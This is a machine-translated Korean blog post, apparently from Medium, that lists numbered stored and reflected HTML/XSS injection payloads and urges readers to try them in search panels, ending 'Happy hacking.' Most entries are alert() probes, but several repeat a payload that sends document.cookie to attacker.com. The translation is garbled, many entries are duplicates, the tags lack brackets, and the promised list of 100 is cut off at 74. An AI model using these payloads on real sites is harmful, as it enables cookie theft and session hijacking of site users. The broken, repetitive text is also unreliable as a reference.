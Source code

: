 ```yaml
---
title: "HTML 삽입 (페이로드 목록)"
description: ""
coverImage: "/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png"
date: 2024-05-02 00:01
ogImage:
  url: /assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png
tag: Tech
originalTitle: "HTML INJECTION (Payload List)"
link: "https://medium.com/@psychomong/html-injection-payload-list-735e69f522ca"
isUpdated: true
---
```


피신몽인 사람들, 다시 돌아

주사, 이제 페이로드 목록을 가져 오는 것을 보여드리고, 검색 패널에서 시도해 볼 수 있으며, 그대로 반영될 수 있습니다 & 저장되면 위험할 수도 있습니다,

이제 같은 것에 대해 몇 가지 기본 사항을 살펴보겠습니다. HTML 주입이 무엇인지 알아보기 위해
아스타 타커
HTML 주입 또는 주입 관련 질문에 대해, 바로 코드만 제공해 드릴게요. 이것을 시도해서 혜택을 얻어보세요.....

![HTML INJECTION Payload List](/assets/img/2024-05-02-HTMLINJECTIONPayloadList_0.png)

<!-- seedividend - 사각형 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

페이로드 목록을 확인해 보세요...

물론이죠! 저장된 및 반사된 HTML 주입 페이로드 100개를 모두 포함한 목록입니다:

저장된 HTML 주입 페이로드:

1. `script`alert(‘저장된 HTML 주입’)`/script`
2. `img src="javascript:alert(‘저장된 HTML 주입’)"`
3. `svg/onload=alert(‘저장된 HTML 주입’)`
4. `iframe src="javascript:alert(‘저장된 HTML 주입’)"`
5. `body onload=alert(‘저장된 HTML 주입’)`
6. `img src=x onerror=alert(‘저장된 HTML 주입’)`
7. `marquee onstart=alert(‘저장된 HTML 주입’)`
8. `input type="image" src="javascript:alert(‘저장된 HTML 주입’)"`
9. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
10. `input type="hidden" onkeypress="alert(‘저장된 HTML 주입’)"`
11. `audio onloadstart="alert(‘저장된 HTML 주입’)"`
12. `form onsubmit="alert(‘저장된 HTML 주입’)"`
13. `textarea onchange="alert(‘저장된 HTML 주입’)"`
14. `base href="javascript:alert(‘저장된 HTML 주입’)"`
15. `a href="javascript:alert(‘저장된 HTML 주입’)"`여기를 클릭하세요`/a`
16. `object data="javascript:alert(‘저장된 HTML 주입’)"`
17. `img src="x" onmouseover="alert(‘저장된 HTML 주입’)"`
18. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
19. `body background="javascript:alert(‘저장된 HTML 주입’)"`
20. `embed src="javascript:alert(‘저장된 HTML 주입’)"`
21. `script`alert(‘반사된 HTML 주입’)`/script`
22. `img src="javascript:alert(‘반사된 HTML 주입’)"`
23. `svg/onload=alert(‘반사된 HTML 주입’)`
24. `iframe src="javascript:alert(‘반사된 HTML 주입’)"`
25. `body onload=alert(‘반사된 HTML 주입’)`
26. `img src=x onerror=alert(‘반사된 HTML 주입’)`
27. `marquee onstart=alert(‘반사된 HTML 주입’)`
28. `input type="image" src="javascript:alert(‘반사된 HTML 주입’)"`
29. `img src=1 href=1 onerror=alert(‘반사된 HTML 주입’) /`
30. `input type="hidden" onkeypress="alert(‘반사된 HTML 주입’)"`
31. `audio onloadstart="alert(‘반사된 HTML 주입’)"`
32. `form onsubmit="alert(‘반사된 HTML 주입’)"`
33. `textarea onchange="alert(‘반사된 HTML 주입’)"`
34. `base href="javascript:alert(‘반사된 HTML 주입’)"`
35. `a href="javascript:alert(‘반사된 HTML 주입’)"`여기를 클릭하세요`/a`
36. `object data="javascript:alert(‘반사된 HTML 주입’)"`
37. `img src="x" onmouseover="alert(‘반사된 HTML 주입’)"`
38. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
39. `body background="javascript:alert(‘반사된 HTML 주입’)"`
40. `embed src="javascript:alert(‘반사된 HTML 주입’)"`

41. `svg/onload=alert(‘저장된 HTML 주입’)`
42. `body onload=alert(‘저장된 HTML 주입’)`
43. `img src=x onerror=alert(‘저장된 HTML 주입’)`
44. `marquee onstart=alert(‘저장된 HTML 주입’)`
45. `input type="image" src="javascript:alert(‘저장된 HTML 주입’)"`
46. `img src=1 href=1 onerror=alert(‘저장된 HTML 주입’) /`
47. `input type="hidden" onkeypress="alert(‘저장된 HTML 주입’)"`
48. `audio onloadstart="alert(‘저장된 HTML 주입’)"`
49. `form onsubmit="alert(‘저장된 HTML 주입’)"`
50. `textarea onchange="alert(‘저장된 HTML 주입’)"`
51. `base href="javascript:alert(‘저장된 HTML 주입’)"`
52. `a href="javascript:alert(‘저장된 HTML 주입’)"`여기를 클릭하세요`/a`
53. `object data="javascript:alert(‘저장된 HTML 주입’)"`
54. `img src="x" onmouseover="alert(‘저장된 HTML 주입’)"`
55. `script`document.write(‘`iframe src="https://attacker.com/steal-cookies?cookie=` + document.cookie + ‘"``/iframe`’);`/script`
56. `body background="javascript:alert(‘저장된 HTML 주입’)"`
57. `embed src="javascript:alert(‘저장된 HTML 주입’)"`
58. `img src="javascript:alert(‘저장된 HTML 주입’)" onerror="alert(‘저장된 HTML 주입’)"`
59. ` body``svg``script `alert(‘저장된 HTML 주입’)` /script``/svg``/body `
60. `a href="data:text/html,`script`alert(‘저장된 HTML 주입’)`/script`"`여기를 클릭하세요`/a`

<!-- seedividend - 사각형 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

반가워요!

다음은 HTML 주입 페이로드 결과입니다: 61. `svg/onload=alert(‘주입된 HTML 삽입’)` 62. `body onload=alert(‘주입된 HTML 삽입’)` 63. `img src=x onerror=alert(‘주입된 HTML 삽입’)` 64. `marquee onstart=alert(‘Reflected HTML Injection’)` 65. `input type="image" src="javascript:alert(‘주입된 HTML 삽입’)"` 66. `img src=1 href=1 onerror=alert(‘주입된 HTML 삽입’) /` 67. `input type="hidden" onkeypress="alert(‘주입된 HTML 삽입’)"` 68. `audio onloadstart="alert(‘주입된 HTML 삽입’)"` 69. `form onsubmit="alert(‘주입된 HTML 삽입’)"` 70. `textarea onchange="alert(‘주입된 HTML 삽입’)"` 71. `base href="javascript:alert(‘주입된 HTML 삽입’)"` 72. `a href="javascript:alert(‘주입된 HTML 삽입’)"`Click me`/a` 73. `object data="javascript:alert(‘주입된 HTML 삽입’)"
74. `img src="x" onmouseover="alert(‘주입된 HTML 삽입’)"`
... (중략)

여기까지 주입을 시도해보고, 어디에 삽입해야 하는지 알려줘.... 찾아보세요..

다음주 월요일에 만나요,

<!-- seedividend - 사각형 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

행복한 해킹! 해커들...
